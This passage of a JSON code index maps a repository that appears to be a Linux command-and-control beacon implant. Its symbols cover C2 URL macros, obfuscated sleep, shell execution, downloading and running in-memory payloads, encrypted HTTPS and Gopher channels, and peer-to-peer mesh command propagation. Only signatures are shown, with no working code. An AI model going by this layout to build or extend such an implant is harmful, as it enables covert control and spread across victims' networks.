"base64_decode", "signature": "unsigned char *base64_decode(const char *input, int *len)"}, {"doc": "=== AES CFB ===", "kind": "function", "line": 523, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"kind": "function", "line": 557, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"doc": "=== EXEC CMD ===", "kind": "function", "line": 593, "name": "exec_cmd", "signature": "char *exec_cmd(const char *cmd, int *out_len)"}, {"doc": "=== Función auxiliar: alinear al tamaño de página ===", "kind": "function", "line": 619, "name": "page_align", "signature": "static size_t page_align(size_t size)"}, {"kind": "function", "line": 627, "name": "RunELF", "signature": "int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,\n           unsig..."}, {"doc": "=== GET LOCAL IPs ===", "kind": "function", "line": 1126, "name": "get_local_ips", "signature": "char *get_local_ips()"}, {"doc": "=== DOWNLOAD BOF ===", "kind": "function", "line": 1161, "name": "download_bof", "signature": "unsigned char *download_bof(const char *url, size_t *out_size)"}, {"doc": "=== RUN BOF AND CAPTURE ===", "kind": "function", "line": 1184, "name": "run_bof_and_capture", "signature": "char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,\n   ..."}, {"kind": "function", "line": 1231, "name": "mesh_mark_seen", "signature": "void mesh_mark_seen(const char *msg_id)"}, {"kind": "function", "line": 1240, "name": "mesh_is_seen", "signature": "int mesh_is_seen(const char *msg_id)"}, {"kind": "function", "line": 1255, "name": "mesh_add_peer", "signature": "void mesh_add_peer(const char *ip, int port)"}, {"kind": "function", "line": 1283, "name": "mesh_cleanup_peers", "signature": "void mesh_cleanup_peers()"}, {"kind": "function", "line": 1300, "name": "mesh_send_to_peer", "signature": "int mesh_send_to_peer(const char *ip, int port, const mesh_msg_t *msg)"}, {"kind": "function", "line": 1324, "name": "mesh_propagate", "signature": "void mesh_propagate(const char *command)"}, {"kind": "function", "line": 1356, "name": "mesh_discovery_thread", "signature": "void *mesh_discovery_thread(void *arg)"}, {"kind": "function", "line": 1447, "name": "mesh_listener_thread", "signature": "void *mesh_listener_thread(void *arg)"}, {"kind": "function", "line": 1667, "name": "mesh_send_message", "signature": "void mesh_send_message(int type, const char *target, const char *payload)"}, {"doc": "=== MAIN ===", "kind": "function", "line": 1702, "name": "main", "signature": "int main(int argc, char **argv)"}, {"kind": "macro", "line": 1, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 36, "name": "MAX_PEERS", "signature": "#define MAX_PEERS"}, {"kind": "macro", "line": 37, "name": "DISCOVERY_PORT", "signature": "#define DISCOVERY_PORT"}, {"kind": "macro", "line": 38, "name": "DISCOVERY_INTERVAL", "signature": "#define DISCOVERY_INTERVAL"}, {"kind": "macro", "line": 39, "name": "MAX_TTL", "signature": "#define MAX_TTL"}, {"kind": "macro", "line": 40, "name": "MESH_MSG_SIZE", "signature": "#define MESH_MSG_SIZE"}, {"kind": "macro", "line": 42, "name": "C2_URL", "signature": "#define C2_URL"}, {"kind": "macro", "line": 43, "name": "CLIENT_ID", "signature": "#define CLIENT_ID"}, {"kind": "macro", "line": 44, "name": "MALEABLE", "signature": "#define MALEABLE"}, {"kind": "macro", "line": 45, "name": "USER_AGENTS_COUNT", "signature": "#define USER_AGENTS_COUNT"}]}, {"id": "legacy/beacon6.c", "kind": "module", "label": "beacon6.c", "language": "c", "sha256": "93df57c4c2b30f14", "symbol_count": 32, "symbols": [{"doc": "=== ESTRUCTURAS ===", "kind": "struct", "line": 53, "name": "MemoryStruct"}, {"doc": "=== TRAMPOLINES ===", "kind": "struct", "line": 61, "name": "Trampoline"}, {"kind": "struct", "line": 70, "name": "SymbolResolver"}, {"doc": "=== CACHE DE TRAMPOLINES ===", "kind": "struct", "line": 77, "name": "TrampolineCache"}, {"kind": "function", "line": 146, "name": "__attribute__", "signature": "static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,\n            ..."}, {"doc": "sleep ofuscated using poll", "kind": "function", "line": 197, "name": "delay_ms", "signature": "static void delay_ms(int ms)"}, {"doc": "-- Lógica de números primos (sin cambios esenciales) ---", "kind": "function", "line": 204, "name": "is_prime", "signature": "static unsigned int is_prime(unsigned int x)"}, {"doc": "if ((x & 1) == 0) return 0; /* even > 2 unsigned int d = 3; while (d * d <= x) { if (x % d == 0) return 0; d += 2; } return 1; } /* Returns the n-th prime (1-indexed). Returns 0 if n <= 0.", "kind": "function", "line": 224, "name": "get_nth_prime_limited", "signature": "static unsigned int get_nth_prime_limited(unsigned int n)"}, {"kind": "function", "line": 253, "name": "portable_rand_19k_29k", "signature": "static unsigned int portable_rand_19k_29k(void)"}, {"doc": "=== BEACON API ===", "kind": "function", "line": 266, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...)"}, {"kind": "function", "line": 283, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len)"}, {"doc": "=== CRATE TRAPOLINE ===", "kind": "function", "line": 297, "name": "create_trampoline", "signature": "static void *create_trampoline(void *target)"}, {"doc": "=== CLEAN TRAMPOLINE ===", "kind": "function", "line": 338, "name": "cleanup_trampolines", "signature": "static void cleanup_trampolines(void)"}, {"kind": "function", "line": 356, "name": "get_or_create_trampoline", "signature": "static void *get_or_create_trampoline(void *target)"}, {"doc": "=== CURL WRITE CALLBACK ===", "kind": "function", "line": 394, "name": "WriteMemoryCallback", "signature": "static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)"}, {"doc": "=== HTTPS REQUEST ===", "kind": "function", "line": 412, "name": "https_request", "signature": "char *https_request(const char *url, const char *method, const char *post_data)"}, {"doc": "=== BASE64 ===", "kind": "function", "line": 506, "name": "base64_encode", "signature": "char *base64_encode(const unsigned char *input, int len)"}, {"kind": "function", "line": 524, "name": "base64_decode", "signature": "unsigned char *base64_decode(const char *input, int *len)"}, {"doc": "=== AES CFB ===", "kind": "function", "line": 550, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"kind": "function", "line": 584, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"doc": "=== EXEC CMD ===", "kind": "function", "line": 620, "name": "exec_cmd", "signature": "char *exec_cmd(const char *cmd, int *out_len)"}, {"doc": "=== Función auxiliar: alinear al tamaño de página ===", "kind": "function", "line": 646, "name": "page_align", "signature": "static size_t page_align(size_t size)"}, {"kind": "function", "line": 654, "name": "RunELF", "signature": "int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,\n           unsig..."}, {"doc": "=== GET LOCAL IPs ===", "kind": "function", "line": 1153, "name": "get_local_ips", "signature": "char *get_local_ips()"}, {"doc": "=== DOWNLOAD BOF ===", "kind": "function", "line": 1188, "name": "download_bof", "signature": "unsigned char *download_bof(const char *url, size_t *out_size)"}, {"doc": "=== RUN BOF AND CAPTURE ===", "kind": "function", "line": 1211, "name": "run_bof_and_capture", "signature": "char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,\n   ..."}, {"doc": "=== MAIN ===", "kind": "function", "line": 1257, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 1, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 34, "name": "C2_URL", "signature": "#define C2_URL"}, {"kind": "macro", "line": 35, "name": "CLIENT_ID", "signature": "#define CLIENT_ID"}, {"kind": "macro", "line": 36, "name": "MALEABLE", "signature": "#define MALEABLE"}, {"kind": "macro", "line": 37, "name": "USER_AGENTS_COUNT", "signature": "#define USER_AGENTS_COUNT"}]}, {"id": "legacy/beacon_p2p.c", "kind": "module", "label": "beacon_p2p.c", "language": "c", "sha256": "0a7576cd53f4c102", "symbol_count": 49, "symbols": [{"doc": "======================================================================= FUNCIONES DE COMUNICACIÓN (HTTPS + BASE64 + AES) =======================================================================", "kind": "struct", "line": 676, "name": "MemoryStruct"}, {"doc": "======================================================================= ESTRUCTURAS P2P =======================================================================", "kind": "struct", "line": 59, "name": "peer_t"}, {"kind": "struct", "line": 73, "name": "p2p_header_t"}, {"doc": "======================================================================= TRAMPOLINES Y RELOCACIÓN (RunELF) - SIN CAMBIOS =======================================================================", "kind": "struct", "line": 175, "name": "Trampoline"}, {"kind": "struct", "line": 182, "name": "SymbolResolver"}, {"kind": "struct", "line": 192, "name": "TrampolineCache"}, {"doc": "======================================================================= FUNCIONES DE LA API DE BEACON (para BOFs) =======================================================================", "kind": "function", "line": 93, "name": "BeaconDataParse", "signature": "void BeaconDataParse(datap *parser, char *buffer, int size)"}, {"kind": "function", "line": 100, "name": "BeaconDataPtr", "signature": "char *BeaconDataPtr(datap *parser, int size)"}, {"kind": "function", "line": 110, "name": "BeaconDataInt", "signature": "int BeaconDataInt(datap *parser)"}, {"kind": "function", "line": 118, "name": "BeaconDataShort", "signature": "short BeaconDataShort(datap *parser)"}, {"kind": "function", "line": 126, "name": "BeaconDataLength", "signature": "int BeaconDataLength(datap *parser)"}, {"kind": "function", "line": 131, "name": "BeaconDataExtract", "signature": "char *BeaconDataExtract(datap *parser, int *size)"}, {"kind": "function", "line": 142, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...)"}, {"kind": "function", "line": 159, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len)"}, {"kind": "function", "line": 250, "name": "__attribute__", "signature": "static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,\n            ..."}, {"kind": "function", "line": 278, "name": "create_trampoline", "signature": "static void *create_trampoline(void *target)"}, {"kind": "function", "line": 309, "name": "cleanup_trampolines", "signature": "static void cleanup_trampolines(void)"}, {"kind": "function", "line": 323, "name": "get_or_create_trampoline", "signature": "static void *get_or_create_trampoline(void *target)"}, {"kind": "function", "line": 350, "name": "page_align", "signature": "static size_t page_align(size_t size)"}, {"kind": "function", "line": 358, "name": "RunELF", "signature": "int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,\n           unsig..."}, {"kind": "function", "line": 683, "name": "WriteMemoryCallback", "signature": "static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)"}, {"kind": "function", "line": 707, "name": "https_request", "signature": "char *https_request(const char *url, const char *method, const char *post_data)"}, {"kind": "function", "line": 763, "name": "base64_encode", "signature": "char *base64_encode(const unsigned char *input, int len)"}, {"kind": "function", "line": 780, "name": "base64_decode", "signature": "unsigned char *base64_decode(const char *input, int *len)"}, {"kind": "function", "line": 802, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"kind": "function", "line": 832, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"doc": "======================================================================= UTILIDADES: ejecutar comandos shell, obtener IPs, etc. =======================================================================", "kind": "function", "line": 866, "name": "exec_cmd", "signature": "char *exec_cmd(const char *cmd, int *out_len)"}, {"kind": "function", "line": 891, "name": "get_local_ips", "signature": "char *get_local_ips()"}, {"kind": "function", "line": 925, "name": "download_bof", "signature": "unsigned char *download_bof(const char *url, size_t *out_size)"}, {"kind": "function", "line": 939, "name": "run_bof_and_capture", "signature": "char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,\n   ..."}, {"doc": "======================================================================= FUNCIONES P2P =======================================================================", "kind": "function", "line": 965, "name": "add_peer", "signature": "void add_peer(struct in_addr ip, int port, const char *id)"}, {"kind": "function", "line": 992, "name": "peer_discovery_thread", "signature": "void *peer_discovery_thread(void *arg)"}, {"kind": "function", "line": 1032, "name": "handle_peer_connection", "signature": "void *handle_peer_connection(void *arg)"}, {"kind": "function", "line": 1130, "name": "peer_server_thread", "signature": "void *peer_server_thread(void *arg)"}, {"kind": "function", "line": 1153, "name": "send_to_peer", "signature": "char *send_to_peer(peer_t *peer, const char *data, int *out_len)"}, {"kind": "function", "line": 1197, "name": "send_to_c2_or_peer", "signature": "char *send_to_c2_or_peer(const char *url, const char *method, const char *data, int *out_len)"}, {"doc": "======================================================================= EJECUTOR DE COMANDOS (unificado para shell y BOF) =======================================================================", "kind": "function", "line": 1231, "name": "execute_generic_command", "signature": "char *execute_generic_command(const char *cmd, int *out_len)"}, {"doc": "======================================================================= MAIN =======================================================================", "kind": "function", "line": 1276, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 1, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 37, "name": "C2_URL", "signature": "#define C2_URL"}, {"kind": "macro", "line": 38, "name": "CLIENT_ID", "signature": "#define CLIENT_ID"}, {"kind": "macro", "line": 39, "name": "MALEABLE", "signature": "#define MALEABLE"}, {"kind": "macro", "line": 40, "name": "USER_AGENTS_COUNT", "signature": "#define USER_AGENTS_COUNT"}, {"kind": "macro", "line": 42, "name": "PEER_DISCOVERY_PORT", "signature": "#define PEER_DISCOVERY_PORT"}, {"kind": "macro", "line": 43, "name": "PEER_TCP_PORT", "signature": "#define PEER_TCP_PORT"}, {"kind": "macro", "line": 44, "name": "PEER_MAGIC", "signature": "#define PEER_MAGIC"}, {"kind": "macro", "line": 45, "name": "PEER_VERSION", "signature": "#define PEER_VERSION"}, {"kind": "macro", "line": 46, "name": "BROADCAST_INTERVAL", "signature": "#define BROADCAST_INTERVAL"}, {"kind": "macro", "line": 47, "name": "MAX_PEERS", "signature": "#define MAX_PEERS"}]}, {"id": "legacy/gopher_beacon.c", "kind": "module", "label": "gopher_beacon.c", "language": "c", "sha256": "16d74fc16c5b6520", "symbol_count": 28, "symbols": [{"doc": "=== ESTRUCTURAS ===", "kind": "struct", "line": 49, "name": "MemoryStruct"}, {"doc": "=== TRAMPOLINES ===", "kind": "struct", "line": 57, "name": "Trampoline"}, {"kind": "struct", "line": 66, "name": "SymbolResolver"}, {"doc": "=== CACHE DE TRAMPOLINES ===", "kind": "struct", "line": 73, "name": "TrampolineCache"}, {"kind": "function", "line": 142, "name": "__attribute__", "signature": "static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,\n            ..."}, {"doc": "=== BEACON API ===", "kind": "function", "line": 193, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...)"}, {"kind": "function", "line": 210, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len)"}, {"doc": "=== CRATE TRAPOLINE ===", "kind": "function", "line": 224, "name": "create_trampoline", "signature": "static void *create_trampoline(void *target)"}, {"doc": "=== CLEAN TRAMPOLINE ===", "kind": "function", "line": 265, "name": "cleanup_trampolines", "signature": "static void cleanup_trampolines(void)"}, {"kind": "function", "line": 283, "name": "get_or_create_trampoline", "signature": "static void *get_or_create_trampoline(void *target)"}, {"doc": "=== CURL WRITE CALLBACK ===", "kind": "function", "line": 321, "name": "WriteMemoryCallback", "signature": "static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)"}, {"doc": "=== GOPHER REQUEST () ===", "kind": "function", "line": 339, "name": "gopher_request", "signature": "char *gopher_request(const char *host, int port, const char *selector, const char *method,\n      ..."}, {"doc": "=== BASE64 ===", "kind": "function", "line": 422, "name": "base64_encode", "signature": "char *base64_encode(const unsigned char *input, int len)"}, {"kind": "function", "line": 440, "name": "base64_decode", "signature": "unsigned char *base64_decode(const char *input, int *len)"}, {"doc": "=== AES CFB ===", "kind": "function", "line": 466, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"kind": "function", "line": 500, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"doc": "=== EXEC CMD ===", "kind": "function", "line": 536, "name": "exec_cmd", "signature": "char *exec_cmd(const char *cmd, int *out_len)"}, {"doc": "=== Función auxiliar: alinear al tamaño de página ===", "kind": "function", "line": 573, "name": "page_align", "signature": "static size_t page_align(size_t size)"}, {"kind": "function", "line": 581, "name": "RunELF", "signature": "int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,\n           unsig..."}, {"doc": "=== GET LOCAL IPs ===", "kind": "function", "line": 1080, "name": "get_local_ips", "signature": "char *get_local_ips()"}, {"doc": "=== DOWNLOAD BOF ===", "kind": "function", "line": 1115, "name": "download_bof", "signature": "unsigned char *download_bof(const char *bof_selector, size_t *out_size)"}, {"doc": "=== RUN BOF AND CAPTURE ===", "kind": "function", "line": 1147, "name": "run_bof_and_capture", "signature": "char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,\n   ..."}, {"doc": "=== MAIN ===", "kind": "function", "line": 1193, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 1, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 30, "name": "C2", "signature": "#define C2"}, {"kind": "macro", "line": 31, "name": "CLIENT_ID", "signature": "#define CLIENT_ID"}, {"kind": "macro", "line": 32, "name": "MALEABLE", "signature": "#define MALEABLE"}, {"kind": "macro", "line": 33, "name": "USER_AGENTS_COUNT", "signature": "#define USER_AGENTS_COUNT"}]}, {"id": "legacy/v1_gopher_beacon.c", "kind": "module", "label": "v1_gopher_beacon.c", "language": "c", "sha256": "f2e43fcc65f03bc0", "symbol_count": 28, "symbols": [{"doc": "=== ESTRUCTURAS ===", "kind": "struct", "line": 49, "name": "MemoryStruct"}, {"doc": "=== TRAMPOLINES ===", "kind": "struct", "line": 57, "name": "Trampoline"}, {"kind": "struct", "line": 66, "name": "SymbolResolver"}, {"doc": "=== CACHE DE TRAMPOLINES ===", "kind": "struct", "line": 73, "name": "TrampolineCache"}, {"kind": "function", "line": 142, "name": "__attribute__", "signature": "static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,\n            ..."}, {"doc": "=== BEACON API ===", "kind": "function", "line": 193, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...)"}, {"kind": "function", "line": 210, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len)"}, {"doc": "=== CRATE TRAPOLINE ===", "kind": "function", "line": 224, "name": "create_trampoline", "signature": "static void *create_trampoline(void *target)"}, {"doc": "=== CLEAN TRAMPOLINE ===", "kind": "function", "line": 265, "name": "cleanup_trampolines", "signature": "static void cleanup_trampolines(void)"}, {"kind": "function", "line": 283, "name": "get_or_create_trampoline", "signature": "static void *get_or_create_trampoline(void *target)"}, {"doc": "=== CURL WRITE CALLBACK ===", "kind": "function", "line": 321, "name": "WriteMemoryCallback", "signature": "static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)"}, {"doc": "=== GOPHER REQUEST () ===", "kind": "function", "line": 339, "name": "gopher_request", "signature": "char *gopher_request(const char *host, int port, const char *selector, const char *method,\n      ..."}, {"doc": "=== BASE64 ===", "kind": "function", "line": 422, "name": "base64_encode", "signature": "char *base64_encode(const unsigned char *input, int len)"}, {"kind": "function", "line": 440, "name": "base64_decode", "signature": "unsigned char *base64_decode(const char *input, int *len)"}, {"doc": "=== AES CFB ===", "kind": "function", "line": 466, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"kind": "function", "line": 500, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"doc": "=== EXEC CMD ===", "kind": "function", "line": 536, "name": "exec_cmd", "signature": "char *exec_cmd(const char *cmd, int *out_len)"}, {"doc": "=== Función auxiliar: alinear al tamaño de página ===", "kind": "function", "line": 573, "name": "page_align", "signature": "static size_t page_align(size_t size)"}, {"kind": "function", "line": 581, "name": "RunELF", "signature": "int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,\n           unsig..."}, {"doc": "=== GET LOCAL IPs ===", "kind": "function", "line": 1080, "name": "get_local_ips", "signature": "char *get_local_ips()"}, {"doc": "=== DOWNLOAD BOF ===", "kind": "function", "line": 1115, "name": "download_bof", "signature": "unsigned char *download_bof(const char *bof_selector, size_t *out_size)"}, {"doc": "=== RUN BOF AND CAPTURE ===", "kind": "function", "line": 1147, "name": "run_bof_and_capture", "signature": "char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,\n   ..."}, {"doc": "=== MAIN ===", "kind": "function", "line": 1193, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 1, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 30, "name": "C2", "signature": "#define C2"}, {"kind": "macro", "line": 31, "name": "CLIENT_ID", "signature": "#define CLIENT_ID"}, {"kind": "macro", "line": 32, "name": "MALEABLE", "signature": "#define MALEABLE"}, {"kind": "macro", "line": 33, "name": "USER_AGENTS_COUNT", "signature": "#define USER_AGENTS_COUNT"}]}, {"doc": "Auto-generated implementation for contract: Async I/O for Beacon", "id": "mutants/src/async_i_o_for_beacon.c", "kind": "module", "label": "async_i_o_for_beacon.c", "language": "c", "sha256": "963e7f5708236e21", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "async_i_o_for_beacon_process", "signature": "bool async_i_o_for_beacon_process(void)"}]}, {"doc": "Auto-generated implementation for contract: beacon_common.c Extraction", "id": "mutants/src/beacon_common.c_extraction.c", "kind": "module", "label": "beacon_common.c_extraction.c", "language": "c", "sha256": "8ecd8713d96bb941", "symbol_count": 0, "symbols": []}, {"doc": "Auto-generated implementation for contract: Beacon Heartbeat / Health Endpoint", "id": "mutants/src/beacon_heartbeat___health_endpoint.c", "kind": "module", "label": "beacon_heartbeat___health_endpoint.c", "language": "c", "sha256": "1525a8f271458842", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "beacon_heartbeat___health_endpoint_process", "signature": "bool beacon_heartbeat___health_endpoint_process(void)"}]}, {"doc": "Auto-generated implementation for contract: BOF API Versioning", "id": "mutants/src/bof_api_versioning.c", "kind": "module", "label": "bof_api_versioning.c", "language": "c", "sha256": "bdda20727c61ed6a", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "bof_api_versioning_process", "signature": "bool bof_api_versioning_process(void)"}]}, {"doc": "Auto-generated implementation for contract: BOF Path Traversal Hardening", "id": "mutants/src/bof_path_traversal_hardening.c", "kind": "module", "label": "bof_path_traversal_hardening.c", "language": "c", "sha256": "0d81f7c75c0c7c2c", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "bof_path_traversal_hardening_process", "signature": "bool bof_path_traversal_hardening_process(void)"}]}, {"doc": "Auto-generated implementation for contract: BOF Streaming (Large Outputs)", "id": "mutants/src/bof_streaming_(large_outputs).c", "kind": "module", "label": "bof_streaming_(large_outputs).c", "language": "c", "sha256": "ab765d3cec0abe4c", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "bof_streaming_", "signature": "bool bof_streaming_(large_outputs)_process(void)"}]}, {"doc": "Auto-generated implementation for contract: C2 REST API", "id": "mutants/src/c2_rest_api.c", "kind": "module", "label": "c2_rest_api.c", "language": "c", "sha256": "584925f3070d7230", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "c2_rest_api_process", "signature": "bool c2_rest_api_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Certificate Pinning / TOFU", "id": "mutants/src/certificate_pinning___tofu.c", "kind": "module", "label": "certificate_pinning___tofu.c", "language": "c", "sha256": "d843166f28b89492", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "certificate_pinning___tofu_process", "signature": "bool certificate_pinning___tofu_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Command Execution via execve", "id": "mutants/src/command_execution_via_execve.c", "kind": "module", "label": "command_execution_via_execve.c", "language": "c", "sha256": "e9b152d5aacf6201", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "command_execution_via_execve_process", "signature": "bool command_execution_via_execve_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Containerized Build + SBOM", "id": "mutants/src/containerized_build_+_sbom.c", "kind": "module", "label": "containerized_build_+_sbom.c", "language": "c", "sha256": "c23d2e24214a5ecd", "symbol_count": 0, "symbols": []}, {"doc": "Auto-generated implementation for contract: HKDF Key Derivation", "id": "mutants/src/hkdf_key_derivation.c", "kind": "module", "label": "hkdf_key_derivation.c", "language": "c", "sha256": "b2b1de168e86e98f", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "hkdf_key_derivation_process", "signature": "bool hkdf_key_derivation_process(void)"}]}, {"doc": "Auto-generated implementation for contract: IV Generation with Entropy Verification", "id": "mutants/src/iv_generation_with_entropy_verification.c", "kind": "module", "label": "iv_generation_with_entropy_verification.c", "language": "c", "sha256": "42d45881782afae5", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "iv_generation_with_entropy_verification_process", "signature": "bool iv_generation_with_entropy_verification_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Mutation Testing Integration", "id": "mutants/src/mutation_testing_integration.c", "kind": "module", "label": "mutation_testing_integration.c", "language": "c", "sha256": "c65d56f7e227da07", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "mutation_testing_integration_process", "signature": "bool mutation_testing_integration_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Pre-commit + CI Hardening", "id": "mutants/src/pre-commit_+_ci_hardening.c", "kind": "module", "label": "pre-commit_+_ci_hardening.c", "language": "c", "sha256": "855816f1f7885910", "symbol_count": 0, "symbols": []}, {"doc": "Auto-generated implementation for contract: Replay Protection", "id": "mutants/src/replay_protection.c", "kind": "module", "label": "replay_protection.c", "language": "c", "sha256": "7f776df603762f0a", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "replay_protection_process", "signature": "bool replay_protection_process(void)"}]}, {"doc": "Auto-generated implementation for contract: SOCKS5 / HTTP Proxy Support", "id": "mutants/src/socks5___http_proxy_support.c", "kind": "module", "label": "socks5___http_proxy_support.c", "language": "c", "sha256": "77716b18c4a98b5b", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "socks5___http_proxy_support_process", "signature": "bool socks5___http_proxy_support_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Structured JSONL Logging", "id": "mutants/src/structured_jsonl_logging.c", "kind": "module", "label": "structured_jsonl_logging.c", "language": "c", "sha256": "2cdbb7ab672e8b72", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "structured_jsonl_logging_process", "signature": "bool structured_jsonl_logging_process(void)"}]}, {"doc": "Auto-generated implementation for contract: TLS Client Certificate Authentication", "id": "mutants/src/tls_client_certificate_authentication.c", "kind": "module", "label": "tls_client_certificate_authentication.c", "language": "c", "sha256": "7da0085f5a03731c", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "tls_client_certificate_authentication_process", "signature": "bool tls_client_certificate_authentication_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Unified Config Schema", "id": "mutants/src/unified_config_schema.c", "kind": "module", "label": "unified_config_schema.c", "language": "c", "sha256": "ebdfd9af62397dd6", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "unified_config_schema_process", "signature": "bool unified_config_schema_process(void)"}]}, {"id": "mutants/tests/config_harness.c", "kind": "module", "label": "config_harness.c", "language": "c", "sha256": "e1ca75a26cd5a35a", "symbol_count": 1, "symbols": [{"kind": "function", "line": 22, "name": "main", "signature": "int main(void)"}]}, {"id": "mutants/tests/crypto_harness.c", "kind": "module", "label": "crypto_harness.c", "language": "c", "sha256": "9c163c1b6430906b", "symbol_count": 2, "symbols": [{"kind": "function", "line": 12, "name": "hex_to_bytes", "signature": "static int hex_to_bytes(const char *hex, unsigned char *out, size_t outlen)"}, {"kind": "function", "line": 23, "name": "main", "signature": "int main(int argc, char **argv)"}]}, {"doc": "Auto-generated test for contract: Async I/O for Beacon BDD-style tests derived from specification.", "id": "mutants/tests/test_async_i_o_for_beacon.py", "kind": "module", "label": "test_async_i_o_for_beacon.py", "language": "py", "sha256": "90842c9a8cd6dfe0", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for Async I/O for Beacon.", "kind": "class", "line": 18, "name": "TestAsyncIOforBeacon", "signature": "class TestAsyncIOforBeacon"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_async_i_o_for_beacon_c.c", "kind": "module", "label": "test_async_i_o_for_beacon_c.c", "language": "c", "sha256": "9d842a063e03822d", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_async_i_o_for_beacon_placeholder", "signature": "static void test_async_i_o_for_beacon_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Sanity build test: compile the v1 beacon against include/config.c and verify the binary links and embeds the symbols we expect.  This test is skipped (not failed) if the OpenSSL or libcurl dev headers are missing, so it works on a clean CI runner and on a dev box without those installed. CI installs them explicitly.", "id": "mutants/tests/test_beacon_build.py", "kind": "module", "label": "test_beacon_build.py", "language": "py", "sha256": "b41c82a478e2b89a", "symbol_count": 8, "symbols": [{"doc": "Return True if openssl and curl headers are present.", "kind": "function", "line": 29, "name": "have_headers", "signature": "def have_headers()"}, {"kind": "function", "line": 43, "name": "compile_beacon", "signature": "def compile_beacon()"}, {"kind": "function", "line": 65, "name": "inspect_binary", "signature": "def inspect_binary()"}, 